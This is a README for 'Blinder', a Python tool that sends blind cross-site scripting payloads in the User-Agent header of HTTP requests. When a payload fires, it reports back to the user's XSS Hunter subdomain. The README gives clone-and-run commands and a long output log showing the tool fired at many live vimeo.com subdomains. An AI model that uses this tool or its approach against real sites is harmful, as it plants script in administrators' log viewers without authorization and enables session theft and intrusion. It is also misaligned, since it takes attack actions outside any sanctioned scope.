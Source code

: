 # Blinder
- A Tool Written In Python3 For Sending Blind-XSS Payloads On The User-Agent 

## Usage
```
git clone https://www.github.com/DEMON1A/Blinder.git
cd Blinder
python3 Blinder.py username.xss.ht SubDomains.txt
```

## Description
- Blinder Is Used To Send Blind-XSS Payloads With HTTP Requests On The User-Agent Header. In Case Some Web Application Is Showing The Logs To The Admin Without HTML Escaping. Blinder Take Two Args With The Run Command First One Should Be Your XSS-Hunter Sub-Domain That Will Sent You The Details If The XSS-Payload Is Fired. You Can Use Your Username Without ```.xss.ht``` If You Added ```-u``` At The End Of The Command For Example ```python3 Blinder.py username Hosts -u```

- Blinder Isn't That Fast So It Requires Good Internet Speed. If You Have Any Suggestions To Improve The Tool Speed With The Code. Feel Free To Contact Me Or Make Changes On The Code.

- I Will Update The Tool Soon So You Can Select Any Payload You Want With Other Headers But You Can Always Edit The Code With Whatever You Want To Use On It. Also All Of The Function On The Code Are Separated You Can Simply Import/Copy Them From The Code Into You Code By Removing The External Functions That You Won't Use So You Can Use The Function.

- Blinder Contains Basic Response Code Check. Feel Free To Add Any Response Code On StatusCheck Function With The Desription. And I Would Love To Mergo It Here.

### Output 
```
root@MohammedDief:~/Programing/PythonProjects/Blinder$ python3 Blinder.py {username}.xss.ht vimeo.com.robe 
Internal Server Error, Maybe From The User-agent, Check That. Url: https://dev.starlord.vimeo.com
Not Found Resource. But Seems The XSSPayload Got There, Url: https://1512435600.cloud.vimeo.com
Not Found Resource. But Seems The XSSPayload Got There, Url: https://1512435592.cloud.vimeo.com
Internal Server Error, Maybe From The User-agent, Check That. Url: http://dev.starlord.vimeo.com
Not Found Resource. But Seems The XSSPayload Got There, Url: https://1512435583.cloud.vimeo.com
Not Found Resource. But Seems The XSSPayload Got There, Url: http://1512435600.cloud.vimeo.com
Not Found Resource. But Seems The XSSPayload Got There, Url: http://1512435592.cloud.vimeo.com
Not Found Resource. But Seems The XSSPayload Got There, Url: http://1512435583.cloud.vimeo.com
Not Found Resource. But Seems The XSSPayload Got There, Url: https://1512476430.cloud.vimeo.com
Not Found Resource. But Seems The XSSPayload Got There, Url: https://1512476432.cloud.vimeo.com
Not Found Resource. But Seems The XSSPayload Got There, Url: https://1512435595.cloud.vimeo.com
Not Found Resource. But Seems The XSSPayload Got There, Url: http://1512476430.cloud.vimeo.com
Not Found Resource. But Seems The XSSPayload Got There, Url: http://1512476432.cloud.vimeo.com
Not Found Resource. But Seems The XSSPayload Got There, Url: http://1512435595.cloud.vimeo.com
Not Found Resource. But Seems The XSSPayload Got There, Url: https://1512435596.cloud.vimeo.com
Not Found Resource. But Seems The XSSPayload Got There, Url: http://1512435596.cloud.vimeo.com
Not Found Resource. But Seems The XSSPayload Got There, Url: https://1512435594.cloud.vimeo.com
Not Found Resource. But Seems The XSSPayload Got There, Url: http://1512435594.cloud.vimeo.com
Not Found Resource. But Seems The XSSPayload Got There, Url: https://magic.cloud.vimeo.com
Not Found Resource. But Seems The XSSPayload Got There, Url: http://magic.cloud.vimeo.com
Not Found Resource. But Seems The XSSPayload Got There, Url: https://live-api.cloud.vimeo.com
Not Found Resource. But Seems The XSSPayload Got There, Url: https://i.cloud.vimeo.com
Not Found Resource. But Seems The XSSPayload Got There, Url: http://live-api.cloud.vimeo.com
Not Found Resource. But Seems The XSSPayload Got There, Url: https://1512435597.cloud.vimeo.com
^C
Exit.
```
